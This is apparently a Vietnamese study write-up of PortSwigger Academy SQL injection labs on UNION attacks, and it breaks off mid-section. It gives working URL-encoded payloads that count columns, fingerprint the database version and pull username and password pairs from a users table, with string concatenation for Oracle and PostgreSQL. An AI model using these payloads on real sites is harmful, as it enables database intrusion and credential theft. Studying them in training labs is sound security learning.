 ```
Để thực hiện cuộc tấn công này, bạn cần biết rằng có một bảng tên là `users` với hai cột tên là `username` và `password`. Nếu không có thông tin này, bạn sẽ phải đoán tên của các bảng và cột. Tất cả các cơ sở dữ liệu hiện đại đều cung cấp các cách để kiểm tra cấu trúc cơ sở dữ liệu và xác định chúng chứa những bảng và cột nào.

Ví dụ: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

Tìm số cột: \
`https://0a9e00ba0407cca7821199ee0023003f.web-security-academy.net/filter?category=%27%20union%20select%20null,%20null%20--`\
Bài này cho sẵn tên bảng vs tên các cột nên chỉ cần: 
`https://0a9e00ba0407cca7821199ee0023003f.web-security-academy.net/filter?category=%27%20union%20select%20username,%20password%20FROM%20users%20--`

Nếu cần khai thác thêm thì ta sẽ biết được loại SQL sử dụng: `https://0a9e00ba0407cca7821199ee0023003f.web-security-academy.net/filter?category=%27%20union%20select%20null,%20version()%20--`


## Retrieving multiple values within a single column (Truy xuất nhiều giá trị trong 1 cột)
Trong một số trường hợp, truy vấn trong ví dụ trước chỉ có thể trả về một cột duy nhất.\
Bạn có thể truy xuất nhiều giá trị cùng nhau trong một cột này bằng cách ghép các giá trị lại với nhau. Bạn có thể thêm dấu phân cách để phân biệt các giá trị kết hợp. Ví dụ: trên Oracle bạn có thể gửi đầu vào:\
`' UNION SELECT username || '~' || password FROM users--`\
Điều này sử dụng chuỗi ống đôi `||` đó là toán tử nối chuỗi trên Oracle. Truy vấn được chèn nối các giá trị của trường username và password lại với nhau, được phân tách bằng ký tự `~`.\
Kết quả từ truy vấn chứa tất cả tên người dùng và mật khẩu, ví dụ:
```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

Ví dụ: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

Bài này chỉ cho string ở trường thứ 2: `https://0a7c0045049b327080a2711000a6003c.web-security-academy.net/filter?category=%27%20union%20select%20null,%20%27null%27%20--`


Cách đơn giản là ta chỉ truy xuất password rồi thử hết với username `administrator` :
`https://0a7c0045049b327080a2711000a6003c.web-security-academy.net/filter?category=%27%20union%20select%20null,%20password%20FROM%20users%20--`

Hoặc ta sẽ dùng nối chuỗi để xem được cả username - password: 
Đầu tiên ta sẽ biết nó dùng PostgreSQL : `https://0a7c0045049b327080a2711000a6003c.web-security-academy.net/filter?category=%27%20union%20select%20null,%20version()%20FROM%20users%20--`

Sau đó ta sẽ biết cách nối chuỗi:
`https://0a7c0045049b327080a2711000a6003c.web-security-academy.net/filter?category=%27%20union%20select%20null,%20username%20||%20%27---%27%20||%20password%20FROM%20users%20--`

![alt text](image-1.png)

### Ví dụ thêm về Union: 

Lab: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

Xác định tên các table:
```